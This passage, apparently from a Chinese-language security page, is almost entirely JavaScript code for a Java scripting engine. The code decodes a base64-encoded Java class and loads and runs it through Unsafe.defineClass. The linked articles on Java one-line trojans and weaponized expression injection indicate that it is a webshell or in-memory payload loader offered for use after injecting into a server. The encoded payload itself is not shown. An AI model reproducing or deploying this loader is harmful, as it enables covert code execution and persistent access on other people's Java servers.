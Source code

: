 ```
                        java.lang.Class.forName("java.security.cert.Certificate"),
                        0
                    )
                ),
                null,
                classLoader,
                []
            );
            clz = unsafe.defineClass(
                null,
                bytes,
                0,
                bytes.length,
                classLoader,
                protectionDomain
            );
        }
    } catch (error) {
        error.printStackTrace();
    } finally {
        return clz;
    }
}

function base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.lang.Class.forName("java.util.Base64").newInstance().getDecoder().decode(str);
    }
    return bt;
}
clz = defineClass(base64DecodeToByte(code));
clz.newInstance();

```



## 相关文章

[一种新型Java一句话木马的实现](https://yzddmr6.com/posts/%E4%B8%80%E7%A7%8D%E6%96%B0%E5%9E%8BJava%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%AE%9E%E7%8E%B0/)

[Java表达式注入的武器化利用](https://yzddmr6.com/posts/java-expression-exploit/)